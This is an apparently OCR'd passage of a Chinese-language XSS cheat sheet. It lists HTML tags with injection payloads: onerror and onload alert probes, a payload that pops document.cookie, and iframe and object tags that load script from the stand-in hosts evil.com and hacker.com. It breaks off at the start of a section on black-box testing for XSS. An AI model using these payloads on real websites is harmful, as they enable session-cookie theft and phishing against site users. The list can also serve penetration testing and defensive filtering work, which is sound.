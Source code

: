 ```
<img>标签：
<img  src=1  onerror=alert("hack")>
<img  src=1  onerror=alert(/hack/)>
<img  src=1  onerror=alert(document.cookie)>  #弹出cookie
<img  src=1  onerror=alert(123)>      注：对于数字，可以不用引号
<img  src="javascript:alert("XSS");">
<img  dynsrc="javascript:alert('XSS')">
<img  lowsrc="javascript:alert('XSS')">
```

```
<body>标签：
<body onload=alert("XSS")>  #使用onload属性在标记内部传递XSS有效内容
<body background="javascript:alert("XSS")"> #或其他更加模糊的属性在标记内部传递XSS有效内容
```

```
<iframe>标签：
<iframe src=”http://evil.com/xss.html”>

该<iframe>标签允许另一个HTML网页的嵌入到父页面。IFrame可以包含JavaScript，但是，请注意，由于浏览器的内容安全策略（CSP），iFrame中的JavaScript无法访问父页面的DOM。然而，IFrame仍然是非常有效的解除网络钓鱼攻击的手段。

```

```
<input>标签：若标记的type属性<input>设置为image，则可以对其进行操作以嵌入脚本
<input type="image" src="javascript:alert('XSS');">
```

```
<link>标签：用来连接外部的样式表可以包含的脚本
<link rel="stylesheet" href="javascript:alert('XSS');">
```

```
<table>标签：可利用background属性来引用脚本，而非image
<table background="javascript:alert('XSS')">
<td background="javascript:alert('XSS')">
```

```
<div>标签：指定一个背景从而嵌入的脚本，类似table
<div style="background-image: url(javascript:alert('XSS'))">
<div style="width: expression(alert('XSS'));">
```

```
<object>标签：可用于从外部站点脚本包含
<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
```

### XSS漏洞的挖掘 

黑盒测试

尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：
